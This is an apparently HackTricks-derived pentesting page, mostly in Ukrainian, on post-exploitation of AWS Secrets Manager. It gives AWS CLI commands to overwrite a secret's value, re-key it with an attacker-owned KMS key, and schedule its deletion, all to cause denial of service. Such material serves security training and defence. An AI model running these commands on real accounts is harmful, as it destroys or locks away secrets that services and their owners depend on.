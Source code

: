 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Для отримання додаткової інформації див.:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Читання секретів

Самі **секрети є конфіденційною інформацією**, [check the privesc page](../aws-privilege-escalation/aws-secrets-manager-privesc.md) щоб дізнатися, як їх читати.

### DoS — Зміна значення секрету

Змінивши значення секрету, ви можете спричинити **DoS для всіх систем, що залежать від цього значення.**

> [!WARNING]
> Зверніть увагу, що попередні значення також зберігаються, тому легко просто повернутися до попереднього значення.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Якщо зловмисник має дозвіл secretsmanager:UpdateSecret, він може налаштувати secret на використання KMS key, що належить зловмисникові. Спочатку цей KMS key налаштовано так, що будь-хто може отримати до нього доступ і використовувати його, тому оновлення secret з новим ключем можливе. Якби KMS key був недоступний, secret не можна було б оновити.

Після зміни KMS key для secret зловмисник модифікує конфігурацію свого ключа так, щоб доступ до нього мав лише він. Таким чином у наступних версіях secret вони будуть зашифровані цим новим ключем, і через відсутність доступу до ключа можливість отримати secret буде втрачена.

Важливо зазначити, що така недоступність виникне лише в пізніших версіях, після зміни вмісту secret, оскільки поточна версія все ще зашифрована оригінальним KMS key.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

Мінімальна кількість днів для видалення секрету — 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
{{#include ../../../banners/hacktricks-training.md}}
